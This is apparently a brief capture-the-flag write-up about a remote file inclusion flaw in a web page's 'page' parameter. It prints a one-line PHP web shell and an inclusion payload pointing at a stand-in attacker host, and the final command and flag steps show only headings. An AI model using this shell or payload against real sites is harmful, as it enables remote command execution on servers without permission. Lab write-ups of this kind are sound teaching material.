



# Remote
**the site is vulnerable to remote file inclusion**
The page parameter allows including a remote page
the attacker can point to his server where he hosts malicious php files

### The attacker server:
Hosts a php shell 
```bash
shell.php
```
 `shell.php` contains :
```php
<?php system($_REQUEST['cmd']) ?>
```
this allows us to run commands on the vulnerable server

after launching the server and setting `page` to `page=https://attacker.com/shell.php`



**Now we can run commands:**


**and read the flag:**

